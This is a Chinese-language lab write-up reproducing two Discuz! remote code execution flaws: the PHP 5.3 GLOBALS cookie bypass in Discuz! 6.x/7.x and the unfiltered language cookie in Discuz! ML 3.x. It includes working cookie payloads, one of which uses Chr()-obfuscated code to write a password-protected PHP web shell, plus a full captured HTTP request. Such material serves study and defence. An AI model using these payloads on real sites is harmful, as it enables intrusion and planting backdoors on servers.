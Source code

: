 ## Discuz! 6.x/7.x 全局变量防御绕过漏洞

### 漏洞原理

由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致Discuz! 6.x/7.x 全局变量防御绕过漏洞。

PHP中预定义了几个超级全局变量（superglobals） ，这意味着它们在一个脚本的全部作用域中都可用。 你不需要特别说明，就可以在函数及类中使用。

PHP 超级全局变量列表:

- $GLOBALS
- $_SERVER
- $_REQUEST
- $_POST
- $_GET
- $_FILES
- $_ENV
- $_COOKIE
- $_SESSION

$GLOBALS 是PHP的一个超级全局变量组，在一个PHP脚本的全部作用域中都可以访问。$GLOBALS 是一个包含了全部变量的全局组合数组。变量的名字就是数组的键。

~~~php
<?php 
$x = 75; 
$y = 25;
$z = 1;
function addition() { 
  $GLOBALS['z'] = $GLOBALS['x'] + $GLOBALS['y']; 
    //$GLOBALS可以访问，修改任意全局变量
}
addition(); 
echo $z; 
?>
------
95    
~~~

在register_globals=on下可以提交GLOBALS变量，如果攻击者通过GLOBALS修改命令执行的关键参数变量，这种情况是十分危险的。Discuz中有防御此情况的代码：

```php
if (isset($_REQUEST['GLOBALS']) OR isset($_FILES['GLOBALS'])) {
    exit('Request tainting attempted.');
}
//如果REQUEST或FILES中提交了GLOBALS变量，就会终止
```

**$_GET** 变量接受所有以 **get** 方式发送的请求，及浏览器地址栏中的 **?** 之后的内容。

**$_POS**T 变量接受所有以 post 方式发送的请求，例如，一个 form 以 **method=post** 提交，提交后 php 会处理 post 过来的全部变量。

**$_REQUEST** 支持两种方式发送过来的请求，即 **post** 和 **get** 它都可以接受

$_REQUEST这个超全局变量的值受php.ini中request_order的影响，在php5.3.x系列中，request_order默认值为GP，也就是说默认配置下$_REQUEST只包含$_GET和$_POST而不包括$_COOKIE。通过 COOKIE就可以提交GLOBALS变量。这样一来就绕过了上述防御代码。

总结
由于php5.3.x版本里php.ini的设置里request_order默认值为GP，
导致$_REQUEST中不再包含$_COOKIE，
我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。

利用条件 register_globals=on  && request_order="GP"



### 漏洞复现

漏洞环境 /vulhub/discuz/wooyun-2010-080723

进入一个任意帖子界面

![image-20220311111350576](TyporaPicture/image-20220311111350576.png)

抓取数据包GET /viewthread.php?tid=7&extra=，修改cookie为

~~~
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
~~~

即可执行phpinfo

![image-20220311112023208](TyporaPicture/image-20220311112023208.png)

写入shell，x.php  密码：pwd

~~~
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
------
eval(fputs(fopen('x.php','w'),'<?php @eval($_POST[pwd])?>');)
~~~

可以使用蚁剑连接。



## discuz-ml3x-cnvd-2019-22239 

Discuz Ml v3.x 前台Getshell

**Discuz! ML v.3.4
Discuz! ML v.3.3
Discuz! ML v.3.2**

### 漏洞原因

由于Discuz! ML对于cookie字段的不恰当处理造成的
cookie字段中的language参数未经过滤，直接被拼接写入缓存文件之中，而缓存文件随后又被加载，从而造成代码执行

攻击者通过在请求流量的cookie字段中的language参数处插入构造的payload，进行远程代码执行利用，该漏洞利用方式简单，危害性较大。

### 漏洞复现

环境 docker run -p 80:80 boyhack/discuz_ml

问题出在`cookie`中`xxxx_language=`字段

~~~
GET /forum.php HTTP/1.1
Host: 101.43.138.109
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: nUR_sid=3d4t39; nUR_auth=ab2dediL0NYgAcwIonu5BwHx6r0m5k9ZinWVt%2BunXybqAFcy4VoeeOuljAkN2gSCR3%2B2b9P2nD6bpL28J6KIcQ; nUR_visitedfid=2; UI81_2132_saltkey=EoPMyQQr; UI81_2132_language=sc; UI81_2132_lastvisit=1647393802; UI81_2132_sid=qVeYe2; UI81_2132_lastact=1647397410%09home.php%09misc
Connection: close
~~~

修改为

~~~
UI81_2132_language='.phpinfo().'
~~~

![image-20220316103826559](TyporaPicture/image-20220316103826559.png)

`xxxx_language=`的前缀是由cookiepre确定的，利用时根据实际情况修改。

![image-20220316104113657](TyporaPicture/image-20220316104113657.png)

